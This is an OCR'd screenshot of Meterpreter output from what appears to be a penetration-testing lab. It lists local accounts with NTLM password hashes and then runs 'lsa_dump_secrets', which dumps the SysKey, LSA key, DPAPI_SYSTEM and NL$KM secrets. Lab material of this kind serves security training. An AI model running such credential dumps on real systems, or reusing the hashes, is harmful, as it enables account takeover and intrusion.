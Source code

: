 ```bash
RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
===============================================================================================================================
===============================================================================================================================
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 


```
